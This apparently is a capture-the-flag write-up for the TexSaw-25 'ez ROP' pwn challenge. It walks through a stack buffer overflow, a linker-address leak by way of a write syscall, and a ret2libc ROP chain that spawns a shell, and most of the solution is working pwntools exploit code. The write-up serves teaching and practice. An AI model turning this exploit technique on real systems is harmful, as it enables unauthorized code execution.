 ```yaml
---
title: TexSaw-25 - PWN - ez ROP
date: '2025-04-17'
tags: ['ctf', 'pwn', 'texsaw-25', 'bof', 'arbitrary-read']
draft: false
summary: Reaching libc base from linker leak and ROP chain.
---
```


## Challenge Description

I wasn't able to solve this challenge during ctf because when I joined it only 2 hours were left. 🫠

![chal-img](/static/writeups/texsaw-ctf-25/ez_rop/chal_img.png)

## Solution

Binary Protections (Only NX is enabled plus partial RELRO):

![Protections](/static/writeups/texsaw-ctf-25/ez_rop/protections.png)

Disassembly of main:

```python:easy_rop
pwndbg> disassemble main
Dump of assembler code for function main:
    0x0000000000401106 <+0>:     push   rbp
    0x0000000000401107 <+1>:     mov    rbp,rsp
    0x000000000040110a <+4>:     lea    rcx,[rbp-0x20]
    0x000000000040110e <+8>:     mov    rax,0x0
    0x0000000000401115 <+15>:    mov    rdi,0x0
    0x000000000040111c <+22>:    mov    rsi,rcx
    0x000000000040111f <+25>:    mov    rdx,0x80
    0x0000000000401126 <+32>:    syscall
    0x0000000000401128 <+34>:    pop    rbp
    0x0000000000401129 <+35>:    ret
```

This code sets up a buffer at [rbp-0x20] and uses the syscall instruction to read up to 0x80 (128) bytes from file descriptor 0 (stdin) into that buffer.
However, the buffer is only 32 bytes (0x20) in size, so reading 128 bytes leads to a stack-based buffer overflow.

If you look closely, it intially sets `rax` to 0 and then performs `syscall` i.e., read syscall. As we know, read syscall returns number of bytes (that it read) into rax after its syscall.
So, what we can do is trigger a write syscall to leak memory off the stack (hoping to get a linker/stack leak).

> [!CAUTION]
> Remember to patch binary with libc and linker from the Dockerfile provided to us.

```python
#!/usr/bin/env python3

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]

elf = context.binary = ELF("./easy_rop_patched")
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()#, aslr=True)
libc = ELF("libc.so.6")
gdb.attach(io, '''
    b *0x0000000000401126
''') if args.GDB else None

OFFSET = 40
# 0x000000000040112e : pop rdi ; pop rbp ; ret
POP_RDI_RBP_RET = 0x000000000040112e
SYSCALL = 0x0000000000401126

payload = flat(
    cyclic(OFFSET),
    elf.sym.main,       # setting rax = 1 for write syscall
    POP_RDI_RBP_RET,
    1,                  # RDI = 1 (stdout)
    0,                  # RBP = 0
    SYSCALL,            # write(stdout, stack_value, 0x80)   <- rdx is already set 0x80
    0,                  # for rbp after the syscall in main
    elf.sym.main,       # going back to main after getting leaks
)

io.send(payload)
sleep(1)            # short delay before sending the 1 byte to trigger write syscall
io.send(b"A")       # 1 byte to trigger write syscall

io.interactive()
```

Here in the leaks, we can see a `0x7f` byte (probably a linker leak):

![leaks](/static/writeups/texsaw-ctf-25/ez_rop/leaks.png)

Lets check what leak it is after unpacking it:

```python:code-to-unpack
io.recv(112)
leak = u64(io.recv(8))
log.info("LEAK:- %#x" % leak)
```

Its a linker leak with an offset of 0x32020 from its base:

![linker-leak](/static/writeups/texsaw-ctf-25/ez_rop/linker_leak.png)

Now from linker leak, we can calculate the base address of libc as they are both at the same offset from each other:

![calculating-libc-base](/static/writeups/texsaw-ctf-25/ez_rop/calculate-libc-base.png)

Now that we know the libc base, it's a simple ROP from here:

```python:payload.py
#!/usr/bin/env python3

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]

elf = context.binary = ELF("./easy_rop_patched")
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()#, aslr=True)
libc = ELF("libc.so.6")
gdb.attach(io, '''
    # b *0x0000000000401126
''') if args.GDB else None

OFFSET = 40
# 0x000000000040112e : pop rdi ; pop rbp ; ret
POP_RDI_RBP_RET = 0x000000000040112e
SYSCALL = 0x0000000000401126

payload = flat(
    cyclic(OFFSET),
    elf.sym.main,       # setting rax = 1 for write syscall
    POP_RDI_RBP_RET,
    1,                  # RDI = 1 (stdout)
    0,                  # RBP = 0
    SYSCALL,            # write(stdout, stack_value, 0x80)   <- rdx is already set 0x80
    0,                  # for rbp after the syscall in main
    elf.sym.main,       # going back to main after getting leaks
)

io.send(payload)
sleep(1)            # short delay before sending the 1 byte to trigger write syscall
io.send(b"A")       # 1 byte to trigger write syscall

io.recv(112)
leak = u64(io.recv(8))
log.info("LEAK:- %#x" % leak)

libc.address = leak - 0x215020
log.info("LIBC BASE:- %#x" % libc.address)

# ROPgadget --binary libc.so.6  | grep "pop rdi"
# 0x0000000000027725 : pop rdi ; ret
POP_RDI = libc.address + 0x0027725
BIN_SH = next(libc.search(b"/bin/sh\x00"))

payload = flat(
    cyclic(OFFSET),
    POP_RDI,
    BIN_SH,
    libc.sym.system,
)

io.send(payload)
io.interactive()
```

![shell](/static/writeups/texsaw-ctf-25/ez_rop/shell.png)

### Tip

How to get libc and linker path in a docker container where `file`, `ldd` etc commands doesn't exist.
First run the binary in background:

```
/srv/app # ./run &
/srv/app #
[1]+  Stopped (tty input)        ./run
```

Now find PID of the binary process:

```
/srv/app # # Find its PID
/srv/app # pidof run
28
```

Now with the number, do `cat /proc/<no>/maps` and you will get the paths like this:

```
/srv/app # cat /proc/28/maps | grep libc
7fbe68337000-7fbe6835d000 r--p 00000000 08:40 62793064                   /lib/libc.so.6
7fbe6835d000-7fbe684b2000 r-xp 00026000 08:40 62793064                   /lib/libc.so.6
7fbe684b2000-7fbe68505000 r--p 0017b000 08:40 62793064                   /lib/libc.so.6
7fbe68505000-7fbe68509000 r--p 001ce000 08:40 62793064                   /lib/libc.so.6
7fbe68509000-7fbe6850b000 rw-p 001d2000 08:40 62793064                   /lib/libc.so.6
```
